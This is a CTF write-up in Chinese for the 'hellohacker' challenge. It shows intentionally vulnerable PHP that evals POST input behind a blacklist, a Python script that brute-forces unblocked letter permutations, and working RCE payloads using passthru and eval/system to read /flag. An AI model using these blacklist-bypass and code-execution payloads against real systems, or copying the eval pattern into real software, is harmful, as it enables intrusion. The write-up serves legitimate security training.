






# hellohacker题解
## 考点
- RCE
- 黑名单爆破
## 分析
首先分析下面的源码：
- 先包含了两个php文件，从名字上来看应该是做敏感字符过滤的；
- 然后post提交两个参数`incompetent`和`WuCup`，结合下面的代码可知，`incompetent`的值需为`HelloHacker`；
- 接下来就是重点绕过的地方，大致逻辑就是需要包含`pevanxroz`这几个字母，然后逐行读取`prohibited.txt`，然后检查`$WuCup`中是否包含，如果包含则退出程序并回显`this road is blocked`，否则执行`eval`。
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include_once 'check.php';
include_once 'ban.php';

$incompetent = $_POST['incompetent'];
$WuCup = $_POST['WuCup'];

if ($incompetent !== 'HelloHacker') {
    die('Come invade!');
}

$required_chars = ['p', 'e', 'v', 'a', 'n', 'x', 'r', 'o', 'z'];
$is_valid = true;

if (!checkRequiredChars($WuCup, $required_chars)) {
    $is_valid = false;
}

if ($is_valid) {

    $prohibited_file = 'prohibited.txt';
    if (file_exists($prohibited_file)) {
        $file = fopen($prohibited_file, 'r');
        
while ($line = fgets($file)) {
    $line = rtrim($line, "\r\n");  
    if ($line === '' && strpos($WuCup, ' ') === false) {
      
        continue;
    }
    if (stripos($WuCup, $line) !== false) {
        fclose($file);  
        die('this road is blocked');
    }
}

        
        fclose($file);  
    }

    eval($WuCup);
} else {
    die('NO！NO！NO！');
}
?>
Come invade!
```

很明显，我们需要绕过最后一段检查，既然要求我们包含`pevanxroz`这几个字母，不妨先构造`incompetent=HelloHacker&WuCup=pevanxroz`，回显如下，说明`pevanxroz`这个也被ban了，即`prohibited.txt`中包含了一些`pevanxroz`的组合结果：


那么我们先试着访问一下`prohibited.txt`，发现有大量被ban的字符：


因此，我们需要：<mark>先爆破`pevanxroz`这几个字母的哪些排列组合没有被ban掉，然后再去执行命令，拿到flag</mark>
## 题解
首先写个爆破脚本:
```python
import requests
from itertools import permutations

url = 'http://challenge.wucup.cn:21968/prohibited.txt'
WuCup_values = ['p', 'e', 'v', 'a', 'n', 'x', 'r', 'o', 'z']

resp = requests.get(url)
prohibited_chars = set(resp.text.strip().splitlines())

valid_chars = []
 
for test_value in permutations(WuCup_values):
    WuCup = ''.join(test_value)
    '''
    data = {
        'incompentent': incompentent,
        'WuCup': WuCup
        }
    '''
    if WuCup not in prohibited_chars:
        valid_chars.append(WuCup)
 
for wucup in valid_chars:
    print(wucup)
```
得到：


因此初步构造payload为`incompetent=HelloHacker&WuCup=oxzverapn`，然后我们接下来就是想办法拿到flag，如果直接传入`incompetent=HelloHacker&WuCup=oxzverapn;system('cat /flag')`发现会被ban掉，因为system这些也被禁了，因此考虑利用passthru来执行命令，并且保证cat flag不出现在WuCup这个参数中，因此构造payload如下：
```
incompetent=HelloHacker&WuCup=oxzverapn;passthru($_POST["test"]);&test=cat%20/flag
```


## 题内话
细心的小伙伴可能会发现，为什么我`incompetent=HelloHacker&WuCup=oxzverapn;passthru($_POST['test']);&test=cat%20/flag`单引号就不行，而且`incompetent=HelloHacker&WuCup=oxzverapn;eval($_POST[test]);&test=system("cat%20/flag");`的eval命名再prohibited.txt中也可以执行成功，但exec就不行？这个就需要从如下两行代码及prohibited.txt中的小心机解释了：
```php
    $line = rtrim($line, "\r\n");  
    if ($line === '' && strpos($WuCup, ' ') === false) {
      
        continue;
    }
    if (stripos($WuCup, $line) !== false) {
        fclose($file);  
        die('this road is blocked');
    }
```
我们会看到上面这段代码会先去除掉每行的换行，为什么？，来看一下prohibited.txt的内容：



发现什么不同了吗？没错，有的行的内容在被ban的字符后面加了个空格，而有的是加了换行，结合上面的过滤代码，这就是为什么我们传入`'`被匹配到以及传入eval(...)没有被匹配到的原因，即读到单引号行时先去除了换行然后再和我们传入的匹配，读到`eval `行时，与我们传入的`eval`并未匹配。

这题目纯nm脑瘫。。。